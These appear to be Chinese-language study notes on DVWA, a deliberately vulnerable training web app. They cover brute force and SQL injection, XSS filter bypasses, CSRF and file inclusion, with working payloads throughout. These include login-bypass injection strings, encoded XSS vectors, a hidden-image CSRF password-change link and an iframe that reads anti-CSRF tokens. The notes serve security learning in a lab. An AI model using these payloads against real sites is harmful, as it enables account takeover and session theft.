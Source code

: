 # dvwa

## bruteforce

### level：low  
<b>1.注入方式：</b>
-   源码：query  = "SELECT * FROM \`users\` WHERE user = '\$user' AND password = '\$pass';"   
-    admin' #  &emsp;或者	&emsp;admin' -- a   &emsp;或者&emsp; a' or '1' = '1' limit 1 #

### level:medium

<b>1.暴力破解 </b> 
-   burpsuit intruder
-   MySQL5.5.37以下版本如果设置编码为GBK，能够构造编码绕过mysql_real_escape_string 对单引号的转义
---
##  xss

1.  窃取cookie
2.  劫持流量恶意跳转
3.  xss的利用和绕过  
     -  大小写绕过
         -  这个绕过方式的出现是因为网站仅仅只过滤了`<script>`标签，而没有考虑标签中的大小写并不影响浏览器的解释所致。具体的方式就像这样：`<sCript>alert("hey!")</scRipt>`
    -  利用过滤后返回语句再次构成攻击语句来绕过
        -  `<sCri<script>pt>alert("hey!")</scRi</script>pt>`
    -  并不是只有script标签才可以插入代码
        -  `<img src='w.123' onerror='alert("hey!")'>`
        -  `<a onmousemove=alert(1)> `
        -  `<div onmouseover=‘do something here’> `
    -  编码脚本代码绕过关键字过滤
        -  `<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>`
    -   主动闭合标签实现注入代码
    -   html实体编码
        -   `<iframe src=javascript:alert(1)>`
        -   `<iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>`
    -   URL编码
        -   `<iframe src=”javascript:alert(1)”>test</iframe>`
        -   `<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>`
        -   Javascript解析器工作的时候将`\u0061\u006c\u0065\u0072\u0074`进行js解码后为”`alert`”，但是需要注意像圆括号、双引号、单引号不能编码，否则在这种场景下无法弹窗。
4.  xss编码详情
    -   <a href="xss.md">编码相关</a>
---
### 1.  反射型xss

- ####   level:medium
  -   要闭合 `<option><select>`标签

- ####   level:high
    - URL的部分发往服务器时#号后面的并不会发送到服务器，但是javascript代码还会正常读取，所以利用这个特性来绕过服务器端的检查。

---
## csrf

-   ### 简介
    - CSRF，全称Cross-site request forgery，翻译过来就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。

-   ### level ：low
    -   构造链接  如：`http://192.168.32.215/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#` 缺点是容易被发现，所以可以将上面的链接转换成短链接。  
    -   构造一个网页，添加标签：`<img src="http://192.168.32.215/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/> `  
    用图片这种格式会保证最后结果不会回显给用户
    -   要保证使用此链接的时候，有当前用户的cookie……更换浏览器会使cookie失效
    -   同时，可以把刚才的链接放在一个网页中（服务器中），此服务器有一个短的域名。
-   ### level:medium
    -   过滤规则是http包头的Referer参数的值中必须包含主机名（这里是192.168.153.130）
    -   将攻击的网页 命名为 host.html 则可以
-   ### level：high
    -   可以看到，High级别的代码加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器会返回一个随机的token，向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。
    -   同时由于同源策略，攻击者无法获取返回页面的token。
    -   在xss界面构造payload` <iframe src=../csrf onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>`获取token
    -   个人想法：通过xss构造payload携带cookie，token访问本机的某个页面，这个页面在通过cookie和token去攻击。

##  文件包含
 - level: low
    - `http://192.168.32.215/dvwa/vulnerabilities/fi/?page=/opt/lampp/htdocs/dvwa/phpinfo.php`
- level:medium
    - `http://192.168.32.215/dvwa/vulnerabilities/fi/?page=/opt/lampp/htdocs/dvwa/phpinfo.php`
- level:high
    - source：   
```php
<?php  
// The page we wish to display  
$file = $_GET[ 'page' ];
// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
?> 
```
